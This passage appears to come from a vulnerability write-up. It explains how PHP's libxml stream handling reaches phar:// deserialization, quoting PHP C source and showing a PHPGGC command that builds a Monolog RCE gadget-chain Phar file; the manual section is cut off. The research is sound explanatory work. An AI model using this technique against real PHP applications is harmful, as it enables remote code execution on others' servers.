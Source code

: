 ```c
static void *php_libxml_streams_IO_open_read_wrapper(const char *filename)
{
	return php_libxml_streams_IO_open_wrapper(filename, "rb", 1);
}
```

And it calls php_libxml_streams_IO_open_wrapper. Now the ret_val use php_stream_open_wrapper_ex to extract the wrapper and if we pass phar:// to it deserialization happens

```c
static void *php_libxml_streams_IO_open_wrapper(const char *filename, const char *mode, const int read_only)
{
	php_stream_statbuf ssbuf;
	php_stream_context *context = NULL;
	php_stream_wrapper *wrapper = NULL;
	char *resolved_path;
    
    
        ...
        
        ret_val = php_stream_open_wrapper_ex(path_to_open, (char *)mode, REPORT_ERRORS, NULL, context); 
        
        ...
        
        return ret_val;
}
```


## Phar deserialization and gadget chains

This bug still works in PHP 7.4 so can be combined with vulnerabilities in older libraries like Monolog, Laravel, Symfony, etc. Those libraries often contain gadget chains that can be abused for RCE via deserialization.You can find a collection of known gadget chains here: https://github.com/ambionics/phpggc

How to Exploit Phar Deserialization with PHPGGC ? 

### Using the CLI tool 

* First, clone the phpggc repository:
* Next, generate a Phar file with a gadget chain using this command
`phpggc -f Monolog/RCE1 exec 'touch pwned' -p phar -o exploit.phar`
* Now you can work with it

![image](https://hackmd.io/_uploads/rJe9a1fOex.png)

You can notice that there are two files was created exploit.phar and pwned 

### Manually
